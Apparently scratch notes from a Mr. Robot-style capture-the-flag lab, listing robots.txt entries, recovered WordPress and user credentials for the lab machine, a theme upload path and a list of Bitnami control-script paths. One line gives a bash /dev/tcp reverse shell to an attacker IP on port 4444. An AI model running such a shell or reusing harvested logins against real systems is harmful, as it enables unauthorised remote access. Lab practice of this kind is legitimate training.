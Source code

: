 Entered email: tibi123@funny.com

Robots file contents:

User-agent: *
fsocity.dic
key-1-of-3.txt

Wordpress login:

elliot:ER28-0652

http://10.10.183.55/wp-content/themes/twentyfifteen/: themes location

`bash -i >& /dev/tcp/192.168.100.113/4444 0>&1` - netcat reverse shell

robot password:

Robot:abcdefghijklmnopqrstuvwxyz

Scripts:

MYSQL_SCRIPT=$INSTALLDIR/mysql/scripts/ctl.sh
MONGODB_SCRIPT=$INSTALLDIR/mongodb/scripts/ctl.sh
CASSANDRA_SCRIPT=$INSTALLDIR/cassandra/scripts/ctl.sh
COUCHDB_SCRIPT=$INSTALLDIR/couchdb/scripts/ctl.sh
INGRES_SCRIPT=$INSTALLDIR/ingres/scripts/ctl.sh
PHPFPM_SCRIPT=$INSTALLDIR/php/scripts/ctl.sh
HHVM_SCRIPT=$INSTALLDIR/hhvm/scripts/ctl.sh
APACHE_SCRIPT=$INSTALLDIR/apache2/scripts/ctl.sh
VARNISH_SCRIPT=$INSTALLDIR/varnish/scripts/ctl.sh
NGINX_SCRIPT=$INSTALLDIR/nginx/scripts/ctl.sh
HYPERSONIC_SCRIPT=$INSTALLDIR/hypersonic/scripts/ctl.sh
SOLR_SCRIPT=$INSTALLDIR/apache-solr/scripts/ctl.sh
LOGSTASH_SCRIPT=$INSTALLDIR/logstash/scripts/ctl.sh
LOGSTASHFORWARDER_SCRIPT=$INSTALLDIR/logstash-forwarder/scripts/ctl.sh
ELASTICSEARCH_SCRIPT=$INSTALLDIR/elasticsearch/scripts/ctl.sh
TOMCAT_SCRIPT=$INSTALLDIR/apache-tomcat/scripts/ctl.sh
RESIN_SCRIPT=$INSTALLDIR/resin/scripts/ctl.sh
REDIS_SCRIPT=$INSTALLDIR/redis/scripts/ctl.sh
SUBVERSION_SCRIPT=$INSTALLDIR/subversion/scripts/ctl.sh
LIBREOFFICE_SCRIPT=$INSTALLDIR/libreoffice/scripts/ctl.sh
#RUBY_APPLICATION_SCRIPT
LUCENE_SCRIPT=$INSTALLDIR/lucene/scripts/ctl.sh
ZOPE_SCRIPT=$INSTALLDIR/zope_application/scripts/ctl.sh
THIRD_SCRIPT=$INSTALLDIR/third_application/scripts/ctl.sh
POSTGRESQL_SCRIPT=$INSTALLDIR/postgresql/scripts/ctl.sh
NAGIOS_SCRIPT=$INSTALLDIR/nagios/scripts/ctl.sh
JETTY_SCRIPT=$INSTALLDIR/jetty/scripts/ctl.sh
JBOSS_SCRIPT=$INSTALLDIR/jboss/scripts/ctl.sh
WILDFLY_SCRIPT=$INSTALLDIR/wildfly/scripts/ctl.sh
MEMCACHED_SCRIPT=$INSTALLDIR/memcached/scripts/ctl.sh
RABBITMQ_SCRIPT=$INSTALLDIR/rabbitmq/scripts/ctl.sh
ACTIVEMQ_SCRIPT=$INSTALLDIR/activemq/scripts/ctl.sh
ZOOKEEPER_SCRIPT=$INSTALLDIR/zookeeper/scripts/ctl.sh
KAFKA_SCRIPT=$INSTALLDIR/kafka/scripts/ctl.sh